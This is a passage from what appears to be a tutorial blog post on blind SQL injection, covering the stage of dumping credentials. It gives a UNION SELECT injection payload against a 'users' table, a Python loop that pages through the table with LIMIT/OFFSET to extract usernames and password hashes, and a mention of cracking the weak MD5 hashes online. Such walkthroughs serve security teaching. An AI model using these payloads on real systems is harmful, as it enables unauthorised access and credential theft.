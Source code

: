Running the completed script gives not only outputs every column in the current database, but reassmbles the tables column by column.

![Scriptz0rz]({{ site.baseurl }}images/hacking-blind/schema.png)

#Layer 3 - Dumping Creds

We’ve completely reconstructed the databases schema. Now it’s time to start dumping creds. Recalling the output from the script we ran in the previous section, notice that there is a “users” table with both “user” and “password” columns. We want to retrieve those columns and display them on the screen. We can do that with the following query:

	id=-1 UNION SELECT ALL user,password FROM users;#

If we were in a situation where we could only retrieve a single result at a time, we could script a series of consecutive queries as we did when we reconstructed the database schema.

{% highlight python %}

USER_QUERY = '-1 UNION SELECT ALL user,password FROM users LIMIT 1 OFFSET %d;# '

if __name__ == '__main__':

    i = 0
    result = make_query(USER_QUERY % i)
    while result is not None:

        database['creds'].append({
            'user' : result['1'],
            'password' : result['2'],
        })

        i += 1
        result = make_query(USER_QUERY % i)

    pprint(database)

    for c in database['creds']:
        print c['password']

{% endhighlight %}

Once again, I’m omitting the script’s meat and potatoes for brevity, but I definitely encourage you to check out the complete code on github. 

![Scriptz0rz]({{ site.baseurl }}images/hacking-blind/creds.png)

Our script’s output is shown above. We just need to crack the hashes shown in the ‘password’ field. Luckily for us, the password hashes are weak md5’s, so we can crack them rather effortlessly at crackstation.com. This gives us the following output:

![Scriptz0rz]({{ site.baseurl }}images/hacking-blind/crack-station.png)

And presto. We have the creds to the web application. Here's a demo of what the complete attack should look like.

<iframe width="560" height="315" src="https://youtube.com/embed/B_Sf0r8OHuw" frameborder="0" allowfullscreen></iframe>
